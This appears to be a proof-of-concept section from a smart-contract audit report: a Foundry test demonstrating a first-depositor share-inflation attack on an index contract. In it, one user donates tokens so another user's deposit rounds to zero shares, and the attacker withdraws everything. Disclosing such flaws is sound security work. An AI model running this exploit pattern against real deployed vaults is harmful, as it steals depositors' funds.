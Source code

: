 ##### Proof of Concept

```solidity
function test_InflationAttack() public {
    // seed tokens
    deal(WETH, alice, 100e18);
    deal(WBTC, alice, 50e8);

    deal(WETH, bob, 100e18);
    deal(WBTC, bob, 50e8);

    // setup approvals
    vm.startPrank(alice);
    IERC20(WETH).approve(address(index), type(uint256).max);
    IERC20(WBTC).approve(address(index), type(uint256).max);
    vm.stopPrank();

    vm.startPrank(bob);
    IERC20(WETH).approve(address(index), type(uint256).max);
    IERC20(WBTC).approve(address(index), type(uint256).max);
    vm.stopPrank();

    // bond
    vm.prank(alice);
    index.bond(WETH, 0.1e18);

    uint256 aliceShares = index.balanceOf(alice);

    // burn everything except 1 share
    address[] memory null1;
    uint8[] memory null2;
    vm.prank(alice);
    index.debond(aliceShares - 1, null1, null2);

    // Lets say Bob wants to deposit 10 ETH
    uint256 bobAmount = 10e18;

    // Alice inflate reserves
    vm.prank(alice);
    IERC20(WETH).transfer(address(index), bobAmount);

    // Now Bob's deposit goes through
    vm.prank(bob);
    index.bond(WETH, bobAmount);

    // Bob's shares get rounded to 0
    assertEq(index.balanceOf(bob), 0);

    // Alice withdraws all liquidity
    vm.prank(alice);
    index.debond(1, null1, null2);

    console.log("Alice BTC balance:", IERC20(WBTC).balanceOf(alice));
    console.log("Alice WETH balance:", IERC20(WETH).balanceOf(alice));

    console.log("Bob BTC balance:", IERC20(WBTC).balanceOf(bob));
    console.log("Bob WETH balance:", IERC20(WETH).balanceOf(bob));
}
```
